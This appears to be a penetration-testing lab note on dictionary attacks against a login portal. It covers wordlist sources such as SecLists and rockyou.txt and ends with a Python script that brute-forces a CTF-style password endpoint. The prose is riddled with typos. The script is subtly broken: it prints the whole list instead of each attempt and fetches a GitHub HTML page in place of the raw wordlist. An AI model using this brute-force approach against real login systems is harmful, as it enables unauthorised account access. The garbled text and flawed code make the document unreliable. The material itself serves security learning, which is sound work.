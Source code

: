 Consider a hypothetical scenario where an attacker targets a company's employee login portal. The pass might be construct like:
- Commonly used, weak pass.
- The company name an variations thereof
- Names of employees or departments
- Industry-specific jargon

## Building an Utilizing Wordlists:
- Publicly Avaliable lists: The internet hosts plethora of freely accesible wordlist, encompassing collections of Commonly used pass, leaked credentials for data breaches and other
potentially valuable data, Sectlist offer varius wordlists catering to varius attacks scenarios.
- Custom-Built Lists: Penetration testers can craft their wordlists by levering information gleaned during the reconnaissace phase. This might include details about the target's interests,
hobbies, personal infromation, or any other pass.
- Specialized Lists: Can be further refined to target specific industries, apps, or even individuals companies, These specilized lists increase th likelihood of success by focusing
on pass that are more likely to be used within a particular context.
-  Pre-existing Lists: Tools or frameworks come pre-packaged with commonly used wordlist. Penetration testing distinctions like Parrot sec inlude wordlist like rockyou.txt.

More usefull wordlist:
![Wordlists](../Img/wordlists.png)

## Throwing a dictionaty at the problem:
The insatance app creates rout that handles POST requests. Password parameter in th request's form data, receving a requests, it compares the submitted pass against the expected value.
Returns an Error message with a 401 status code.
```py
import requests
ip = ""
port = 4444

passwords = requests.get("https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

for password in passwords:
    print(f"Attempts password: {passwords}")

    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
```
